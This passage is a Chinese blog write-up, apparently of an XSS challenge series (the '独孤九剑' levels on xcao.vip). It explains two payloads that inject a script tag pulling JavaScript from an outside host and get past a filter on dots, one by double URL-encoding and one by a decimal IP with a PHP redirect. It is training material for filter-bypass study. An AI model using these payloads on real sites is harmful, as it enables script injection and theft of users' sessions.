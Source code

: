     
    
    http://xcao.vip/test/xss3.php?data="><script src="http://xcao%252evip/xss/alert%252ejs"></script>
    

这个方法也是题目作者使用的方法。

## 方法二

这个是在知乎上看到的一个方法。

先上 Payload：

    
    
    http://xcao.vip/test/xss3.php?data="><script src="http://2130706433"></script>
    

接下来分析一下这个作者的思路。

他想到的是利用 PHP 的 `302` 重定向，在本地写了一个 PHP 文件，文件的内容是这样的：

    
    
    <?php
    header("Location: http://xcao.vip/xss/alert.js");
    ?>
    

也就是说，当访问这个 PHP 文件的时候，会自动跳转到 <http://xcao.vip/xss/alert.js> 这个地址来。

然后他就在 Payload 中加载自己的本地 IP 地址，但前提是需要将自己本地的 Web 服务的网站首页修改成这个 PHP 文件。

接下来就会遇到一个问题：IP 地址中的 `.` 会遭到题目的过滤。于是这个作者将 IP 地址转换成了十进制形式：  
![在这里插入图片描述](https://img-
blog.csdnimg.cn/da30390001224186bcc296b3f5ed7426.png?x-oss-
process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzMzMxNDg4,size_16,color_FFFFFF,t_70)  
然后就顺利实现了绕过：  
![在这里插入图片描述](https://img-
blog.csdnimg.cn/d31d2b703c3e429db2bfc0c418b66763.png?x-oss-
process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzMzMxNDg4,size_16,color_FFFFFF,t_70)  
整体思路和方法一相比，大同小异，大体框架是一样的，就是对 `.`
的绕过方式不一样。从实现的简单程度来说，方法一明显要方便一些，但方法二也是值得思考的，说不定会用到更复杂的过滤情况呢🤔🤔🤔。

# 独孤九剑-第四式

## 题目

![在这里插入图片描述](https://img-
blog.csdnimg.cn/074621de450a4da7a581009cc4ad71f4.png?x-oss-
process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzMzMxNDg4,size_16,color_FFFFFF,t_70)

> **在上一题的基础之上，又新增了`=` 的过滤**
